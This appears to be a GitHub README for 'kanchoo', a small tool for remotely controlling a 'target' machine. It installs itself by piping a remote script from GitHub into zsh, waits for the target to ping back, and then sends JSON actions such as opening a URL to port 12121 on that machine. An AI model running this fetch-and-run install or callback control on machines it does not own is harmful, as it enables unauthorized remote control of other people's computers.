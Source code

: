 # kanchoo
カンチョー

## how to

#### 1. install in the target (wip)
```sh
ip=127.0.0.1 /bin/zsh <(curl -fsSL https://raw.githubusercontent.com/davidegaspar/kanchoo/wip/install)
```

#### 2. start ping server and wait for target to ping back
```sh
./ping.js
```

#### 3. once you have the target details run a story or a single action
```sh
./story <storyName>.json <ip>
```
```sh
curl -H "Content-Type: application/json" -X POST -d '{"openUrl":"example.com"}' http://${ip}:12121
```

## dependencies
- nodejs
- zsh
